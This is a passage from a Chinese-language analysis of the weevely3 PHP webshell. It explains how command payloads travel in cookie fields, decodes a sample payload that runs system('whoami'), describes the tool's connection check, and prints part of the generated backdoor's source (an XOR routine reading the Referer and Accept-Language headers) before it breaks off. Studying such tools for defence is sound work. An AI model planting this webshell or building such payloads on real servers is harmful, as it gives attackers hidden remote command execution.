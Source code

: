 2. payload片段分别放在Cookie字段中存储，通过代码<code> **self.default_prefixes = ["ID", "SID", "APISID","USRID", "SESSID", "SESS","SSID", "USR", "PREF"]**</code>可知，Cookie中的USR，APISID等字符串主要从该数组中随机取出。
3. <code> **additional_headers.append(('Cookie', '%s=%s;%s %s' % (prefixes.pop(),self.password[:2],additional_cookie if additional_cookie else '',cookie_payload_string)))**</code>代码中可以看到构造的Cookie第一个字符串是"self.password[:2]"即密码的前两位，后面的即为真正的payload，所以我们可以直接把payload进行拼接，然后手工去掉特殊字符，再进行base64解密就可以得到完整的payload。从数据包中提取的payload为"Y2hkaXIoJy92YXIvd3d3L2h0bWwnKTtAc3lzdGVtKCd3aG9hbWkgMj4mMScpOw=="进行base64解码后得到真正的payload为"chdir('/var/www/html');@system('whoami 2>&1');"

#### 5.2.2&emsp;响应体分析 ####
&emsp;&emsp;&emsp;使用legacycookie_php.tpl模板的php后门文件抓取的数据包响应体为明文数据，可以通过观察直观的看到我们攻击命令的回应信息。回应信息主要放在<code><font>\<llo>\</llo></font></code>标签中。而标签中的内容"llo"通过跟踪代码` $k="${password[2:]}";echo "<$k>";echo "</$k>";`可以知道"llo"为是php文件密码从第三个字符一直取到末尾得到。
## 6&emsp;weevely验证机制分析 ##
### 6.1&emsp;源码分析 ###
&emsp;&emsp;&emsp;当生成的php文件是以stegaref_php.tpl文件为模板时，当我们在连接时的命令行中输入任意命运就可以触发**php.py**文件中的**_check_interpreter()**函数，_check_interpreter()函数主要功能是随机生成一个命令，"echo"一个从11111到99999大小的随机整数，然后分别调用channels文件夹下的channel.py文件中的"send()"函数，然后在send()函数中把payload分别发送给legacycookie.py，legacyreferrer.py和stegaref.py三个Python文件中的"send()"函数同时返回Response，code，error的值，<code> **response, code, error = channel.send(command)**</code>,通过对返回的Response和构造的echo的随机数是否相等来进行判断PHP shell能否直接运行，同时判断连接是否成功。
### 6.2&emsp;PHP(stegaref_php.tpl模板)后门文件分析 ###
&emsp;&emsp;&emsp;首先，当我们使用命令：<code><font color=red>weevely generate hello /var/www/html/testformd.php</font></code>来生成木马文件时，会调用generate()函数来生成木马。

1. generate()函数在weevely3-master/core/generate.py文件中，函数原型为：<code> **def generate(password, obfuscator = 'obfusc1_php', agent = 'stegaref_php'):**</code>其中，password为用户指定的密码， obfuscator是使用的webshell模糊变换模板，agent为webshell的模板，后两个参数均可自己定义，用户可以自己编写自定义的模板放入weevely3-master/bd/obfuscator/和weevely3-master/bd/agent/目录下，然后命令中指定自定义的模板。
2. <code> **agent = Template(open(agent_path,'r').read()).render(password=password)**</code>render agent模板文件，得到原始的webshell。webshell源码通过pycharm debug出来，生成的源码为:<br>
        $kh="5d41";
		$kf="402a";

		function x($t,$k){
			$c=strlen($k);
			$l=strlen($t);
			$o="";
			for($i=0;$i<$l;){
				for($j=0;($j<$c&&$i<$l);$j++,$i++)
				{
					$o.=$t{$i}^$k{$j};
				}
			}
			return $o;
		}

		$r=$_SERVER;
		$rr=@$r["HTTP_REFERER"];
		$ra=@$r["HTTP_ACCEPT_LANGUAGE"];

		if($rr&&$ra){
		    $u=parse_url($rr);
		    parse_str($u["query"],$q);
			$q=array_values($q);
			preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
